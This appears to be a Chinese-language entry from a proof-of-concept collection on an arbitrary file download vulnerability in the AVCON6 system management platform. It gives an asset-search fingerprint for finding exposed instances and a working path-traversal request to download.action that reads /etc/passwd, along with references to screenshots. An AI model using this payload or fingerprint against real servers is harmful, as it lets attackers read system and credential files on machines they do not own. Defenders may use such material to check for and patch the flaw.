 # AVCON6 系统管理平台 download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 download.action 存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](images/202202101910735.png)

验证POC

```php
/download.action?filename=../../../../../../etc/passwd
```

![img](images/202202101910750.png)